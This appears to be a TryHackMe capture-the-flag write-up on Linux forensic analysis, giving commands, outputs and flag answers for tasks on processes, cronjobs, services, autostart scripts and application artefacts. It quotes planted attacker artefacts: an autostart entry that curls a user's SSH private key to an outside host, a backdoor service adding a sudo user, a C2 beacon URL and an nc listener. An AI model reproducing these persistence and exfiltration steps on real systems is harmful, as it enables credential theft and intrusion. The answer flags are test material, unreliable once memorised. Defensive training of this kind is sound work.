

> # Linux Process Analysis

# Summary
- [Summary](#summary)
  - [Task 2 - Investigation Setup](#task-2---investigation-setup)
  - [Task 3 - Processes](#task-3---processes)
  - [Task 4 - Cronjobs](#task-4---cronjobs)
  - [Task 5 - Services](#task-5---services)
  - [Task 6 - Autostart Scripts](#task-6---autostart-scripts)
  - [Task 7 - Application Artefacts](#task-7---application-artefacts)

##  Task 2 - Investigation Setup
1. After updating the PATH and LD_LIBRARY_PATH environment variables, run the command check-env. What is the flag that is returned in the output?<br>
    Follow the instruction, then run `check-env` to get the flag.<br>
    **Answer:** THM{8c860435f00c943c21f6b6e0f1b2f854}

##  Task 3 - Processes
1. Which command lists all open files and the processes that opened them?<br>
    > lsof (List Open Files) is a utility that lists information about files opened by processes on a system. 

    **Answer:** lsof

1. Use pstree to list out the process hierarchies. What is the name of the nc processes parent?<br>
    ```shell
    investigator@tryhackme:~$ ps -eFH | grep 4444
    janice      1142    1136  0   815   764   0 03:43 ?        00:00:00           nc -l 0.0.0.0 4444
    investi+    3025    1835  0  2042   656   1 04:30 pts/1    00:00:00           grep --color=auto 4444
    investigator@tryhackme:~$ pstree -p -s 1142
    systemd(1)───cron(685)───cron(1134)───sh(1135)───abzkd83o4jakxld(1136)───nc(1142)
    ```
    Use `ps -eFH | grep 4444` to find PID of nc, then use `pstree` to get parrent process's name of nc.<br>
    **Answer:** abzkd83o4jakxld

##  Task 4 - Cronjobs
1. Search around the system for suspicious system-level cronjob entries. What is the full URL of the C2 server?<br>
    In `etc/cron.hourly`, the is a crontab run with root privilege.<br>
    ```shell
    $ sudo crontab -l -u root
    @hourly /etc/cron.hourly/beacon
    ```
    Then read the content of `beacon` file.<br>
    **Answer:** http://c2.intelligent-software.thm:8310/beacon

1. List the user-level cronjobs in the system. What is the hidden flag in one of the scripts?<br>
    ```
    $ sudo bash -c 'for user in $(cut -f1 -d: /etc/passwd); do entries=$(crontab -u $user -l 2>/dev/null | grep -v "^#"); if [ -n "$entries" ]; then echo "$user: Crontab entry found!"; echo "$entries"; echo; fi; done'
    root: Crontab entry found!
    @hourly /etc/cron.hourly/beacon

    janice: Crontab entry found!
    * * * * * /home/janice/abzkd83o4jakxld.sh

    bob: Crontab entry found!
    10 05 * * * /home/bob/backup_tmp.sh
    30 04 * * * /var/tmp/findme.sh

    elijah: Crontab entry found!
    0 3 * * * /home/elijah/.flag.sh
    ```
    The flag is in `/home/elijah/.flag.sh`.<br>
    **Answer:** THM{4682786cf2d92f01c4d30a2bbf4621f7}

1. Use pspy64 to monitor executions occurring through the system. What is the decoded flag value that is echoed every 15 seconds?<br>
    <br>
    This is the base64 string, decode it to get the flag.<br>
    **Answer:** THM{851a981445dbfb9485c3771510a53568}

##  Task 5 - Services
1. List all running services on the system. What is the flag you discover in the backdoor service's description?<br>
    ```shell
    $ sudo systemctl list-units --type=service --state=running
    UNIT                                           LOAD   ACTIVE SUB     DESCRIPTION                                                     
    accounts-daemon.service                        loaded active running Accounts Service                                                
    acpid.service                                  loaded active running ACPI event daemon                                               
    atd.service                                    loaded active running Deferred execution scheduler                                    
    avahi-daemon.service                           loaded active running Avahi mDNS/DNS-SD Stack                                         
    b4ckd00rftw.service                            loaded active running Backdoor Service - THM{4922066dc6494e8d4d507eef2205c262}
    ```
    **Answer:** THM{4922066dc6494e8d4d507eef2205c262}

1. View the journalctl logs associated with the backdoor service. What is the flag you discover?<br>
    ```shell
    $ sudo journalctl -f -u b4ckd00rftw.service
    -- Logs begin at Sun 2022-02-27 13:52:14 UTC. --
    Aug 17 05:24:15 tryhackme b4ckd00rftw.sh[640]: THM{053c12e620acea8a77b4bdcba578ca19}
    Aug 17 05:25:15 tryhackme sudo[4979]:     root : TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/usr/sbin/useradd -m -p $1$t68kbHlf$2YjK9f9hPBNP4x4Lw.0w.0 b4ckd00rftw
    Aug 17 05:25:15 tryhackme sudo[4979]: pam_unix(sudo:session): session opened for user root by (uid=0)
    Aug 17 05:25:15 tryhackme b4ckd00rftw.sh[4980]: useradd: user 'b4ckd00rftw' already exists
    Aug 17 05:25:15 tryhackme useradd[4980]: failed adding user 'b4ckd00rftw', data deleted
    Aug 17 05:25:15 tryhackme sudo[4979]: pam_unix(sudo:session): session closed for user root
    Aug 17 05:25:15 tryhackme sudo[4981]:     root : TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/usr/sbin/usermod -aG sudo b4ckd00rftw
    Aug 17 05:25:15 tryhackme sudo[4981]: pam_unix(sudo:session): session opened for user root by (uid=0)
    Aug 17 05:25:15 tryhackme sudo[4981]: pam_unix(sudo:session): session closed for user root
    Aug 17 05:25:15 tryhackme b4ckd00rftw.sh[640]: THM{053c12e620acea8a77b4bdcba578ca19}
    ```
    **Answer:** THM{053c12e620acea8a77b4bdcba578ca19}

##  Task 6 - Autostart Scripts
1. What is the full URL that receives Janice's private SSH key on system startup?<br>
    ```
    $ ls -a /home/*/.config/autostart
    /home/eduardo/.config/autostart:
    .  ..  dev.desktop

    /home/franklin/.config/autostart:
    .  ..  netwk.desktop

    /home/janice/.config/autostart:
    .  ..  keygrabber.desktop
    $ cat /home/janice/.config/autostart/keygrabber.desktop 
    [Desktop Entry]
    Type=Application
    Name=Standard Desktop Configuration (DO NOT MODIFY)
    Exec=/bin/bash -c "curl -X POST -d '/home/janice/.ssh/id_rsa' http://aabab.best-it-services.thm/id_rsa"
    ```
    **Answer:** http://aabab.best-it-services.thm/id_rsa

1. Identify and investigate the remaining .desktop files on the system. What is the command that executes with the Show Network Interfaces autostart script?<br>
    ```shell
    $ cat /home/franklin/.config/autostart/netwk.desktop 
    [Desktop Entry]
    Type=Application
    Name=Show Network Interfaces on Startup
    Exec=ifconfig
    ```
    **Answer:** ifconfig

##  Task 7 - Application Artefacts
1. Analyse Janice's .viminfo log. What flag do you find within the Vim search history?<br>
    ```
    $ sudo cat /home/janice/.viminfo | grep THM
    ~MSle0~/THM{4a8fd984228d89999342d189e6b916de}
    ?/THM{4a8fd984228d89999342d189e6b916de}
    |2,1,1710339063,47,"THM{4a8fd984228d89999342d189e6b916de}"
    ```
    **Answer:** THM{4a8fd984228d89999342d189e6b916de}

1. Use DumpZilla to investigate Eduardo's Firefox bookmarks. What flag do you find in one of the entries?<br>
    ```shell
    $ sudo python3 /home/investigator/dumpzilla.py /home/eduardo/.mozilla/firefox/niijyovp.default-release --Bookmarks | grep THM
    URL: https://tryhackme.com/?flag=THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
    Title: THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
    URL: https://tryhackme.com/?flag=https://tryhackme.com?flag=THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
    ```
    **Answer:** THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
